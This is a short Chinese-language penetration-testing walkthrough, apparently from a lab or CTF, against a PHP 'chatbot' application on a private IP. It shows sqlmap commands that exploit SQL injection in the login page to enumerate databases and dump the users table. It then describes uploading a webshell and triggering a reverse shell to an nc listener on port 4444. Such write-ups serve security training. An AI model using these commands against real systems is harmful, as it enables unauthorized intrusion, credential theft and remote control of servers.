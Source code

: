 存在sql注入，继续查数据库名

```
sqlmap -u 'https://10.0.0.136:443/chatbot/classes/Login.php?f=login' --data='username=admin&password=123' --cookie='PHPSESSID=0feamafmpd0e4iahfb0v6k7nvj;roundcube_sessid=fajmig9q2rsass1t3n8871f70q' --batch --dbs
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

查到多个库名，先看看chatbot的表

```
sqlmap -u 'https://10.0.0.136:443/chatbot/classes/Login.php?f=login' --data='username=admin&password=123' --cookie='PHPSESSID=0feamafmpd0e4iahfb0v6k7nvj;roundcube_sessid=fajmig9q2rsass1t3n8871f70q' --batch -D chatbot --tables
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

表名出来了，查一下users表内容

```
sqlmap -u 'https://10.0.0.136:443/chatbot/classes/Login.php?f=login' --data='username=admin&password=123' --cookie='PHPSESSID=0feamafmpd0e4iahfb0v6k7nvj;roundcube_sessid=fajmig9q2rsass1t3n8871f70q' --batch -D chatbot -T users --dump
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到账号和密码，现在去登录

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，找找可利用的信息

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

设置中找到多个上传点，试试能不能上传个webshell

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

上传成功，验证一下

1。攻击机上监听4444端口

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。访问webshell触发反弹shell

```
https://10.0.0.136/chatbot/uploads/1646575560_shell.php
```
